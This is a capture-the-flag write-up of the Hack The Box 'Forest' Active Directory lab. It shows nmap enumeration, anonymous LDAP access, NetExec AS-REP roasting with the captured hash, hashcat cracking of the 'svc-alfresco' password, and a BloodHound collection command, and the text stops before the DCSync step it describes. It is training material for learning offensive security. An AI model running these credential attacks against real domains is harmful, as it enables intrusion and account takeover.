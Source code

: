 <p align="center">
  <img src="img/Forest.png" alt="Description de l'image" width="300"/>
</p>

# Intro

Forest was my first AD machine after completed the CPTS path of HTB.
It's a well known machine for getting started with Active Directory environments. It is an easy-rated machine. The pentest is performed in a black box context as we have no credentials, only the machine's IP address.
I started by a ASREP-Roasting and found that `svc_alfresco` do not requirer Kerberos pre-auth and succesfuly cracked offline his TGT.
After that I used his account to harvest all the domain ACLs and discovered that `svc_alfresco` is a part of the `Account Operators` which has the `GenericAll` over the `Exchange Windows Permissions`.
This group has the `DCSync` ACL over the domain. So I performed a DCSync attack to recover the `Administrator` NT hash and fully compromised the domain

# Walkthough

## Enumeration

I began to enumerate services on the host with the `nmap` tool.

```bash
 # nmap -sV -sC -p- -T5 10.129.62.73

PORT      STATE SERVICE      VERSION
25/tcp    open  smtp-proxy   Avast! anti-virus smtp proxy (cannot connect to 10.129.62.73)
|_smtp-commands: SMTP EHLO nmap.scanme.org: failed to receive data: connection closed
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2025-10-15 09:56:11Z)
110/tcp   open  pop3-proxy   Avast! anti-virus pop3 proxy (cannot connect to 10.129.62.73)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
143/tcp   open  imap-proxy   Avast! anti-virus IMAP proxy (cannot connect to 10.129.62.73)
|_imap-capabilities: CAPABILITY
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
587/tcp   open  smtp-proxy   Avast! anti-virus smtp proxy (cannot connect to 10.129.62.73)
|_smtp-commands: SMTP EHLO nmap.scanme.org: failed to receive data: connection closed
993/tcp   open  tcpwrapped
995/tcp   open  tcpwrapped
49664/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49670/tcp open  unknown
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49996/tcp open  unknown
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   311:
|_    Message signing enabled and required
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2025-10-15T02:56:25-07:00
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-time:
|   date: 2025-10-15T09:56:23
|_  start_date: 2025-10-15T08:53:18
```

Kerberos and LDAP services are exposed on the host, which leads to conclude that this is a Domain Controller within an Active Directory environment.
The domain name is `htb.local` and The DC FQDN is `FOREST.htb.local`.

I added this information to /etc/hosts.

```bash
# echo '10.129.62.73 htb.local FOREST.htb.local FOREST' >> /etc/hosts 
```

## Kerberoasting `svc-alfresco`

It seems like nmap was able to retrieve several information, maybe smb is accessible from an anonymous connexion.
Let's confirm that with NetExect.

```bash
# nxc smb FOREST.htb.local -u '' -p ''
SMB         10.129.62.73    445    FOREST           [*] Windows 10 / Server 2016 Build 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.62.73    445    FOREST           [+] htb.local\:
```

It's confirmed, it is the same for ldap?

```bash
nxc ldap FOREST.htb.local -u '' -p ''
LDAP        10.129.62.73    389    FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local) (signing:None) (channel binding:No TLS cert)
LDAP        10.129.62.73    389    FOREST           [+] htb.local\:
```

Yes! So whith that, we can perfrom an AS-REP Roast attack to request a user TGT without his password.

```bash
# nxc ldap 10.129.62.73 -u '' -p '' --asreproast asreproast.txt
LDAP        10.129.62.73    389    FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local) (signing:None) (channel binding:No TLS cert)
LDAP        10.129.62.73    389    FOREST           [+] htb.local\:
LDAP        10.129.62.73    389    FOREST           [*] Total of records returned 1
LDAP        10.129.62.73    389    FOREST           $krb5asrep$23$svc-alfresco@HTB.LOCAL:68342ef59bc941531618bb589cedd8b9$703ea2b719fbf84824611c4a36e59852274e2965faea332486dd5a722303a807aa6725bb329781f67eb5658f04b87d2ff9053d1840c47838b432d96101ca7dd50251a8c3d5c43a7835d5738ab027807d30692966ead77e33e4011fe47bb7a073a347afd640a2016bda5bdde0c0b96e5c08cd6019867d784be570a5796c7f238fd28cbd0defb930880719502dfd430d47bfe86c1a18de199a44a5163b11eddc794ef682f8d16c807c6b2bbc621a43506a4f5bbea0fc499c92f9f82b37f9e0a0689c938ac1e1cdd6a4dfff8bfe16c88965469cc3b8c89ef41655f9b8999dd3ab73885b7e083452
```

Here is the hash! Notice that no userlist is necessary because the null session is allowed and the tool enumerate first the usernames and make the AS-REQ automaticaly for each users.

## Cracking `svc-alfresco` hash

I tried to crack this AS-REP hash with `Hashcat` to revael the `svc-alfresco` password.

```bash
# hashcat -m 18200 asreproast.txt /opt/lists/rockyou.txt       

$krb5asrep$23$svc-alfresco@HTB.LOCAL:68342ef59bc941531618bb589cedd8b9$703ea2b719fbf84824611c4a36e59852274e2965faea332486dd5a722303a807aa6725bb329781f67eb5658f04b87d2ff9053d1840c47838b432d96101ca7dd50251a8c3d5c43a7835d5738ab027807d30692966ead77e33e4011fe47bb7a073a347afd640a2016bda5bdde0c0b96e5c08cd6019867d784be570a5796c7f238fd28cbd0defb930880719502dfd430d47bfe86c1a18de199a44a5163b11eddc794ef682f8d16c807c6b2bbc621a43506a4f5bbea0fc499c92f9f82b37f9e0a0689c938ac1e1cdd6a4dfff8bfe16c88965469cc3b8c89ef41655f9b8999dd3ab73885b7e083452:s3rvice

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
```

The hash is cracked! I have a first domain credential:
`svc-alfreso:s3rvice`

## Enumerate ACLs with Bloodhound

I used `bloodhound.py` to dumps all ACLs of 

```bash
# # bloodhound.py --zip -c All -u 'svc-alfresco' -p 's3rvice' -dc FOREST.htb.local -d htb.local -ns 10.129.62.73
```

Let's check with `Bloodhound` the attacks path I have from `svc-alfresco`.







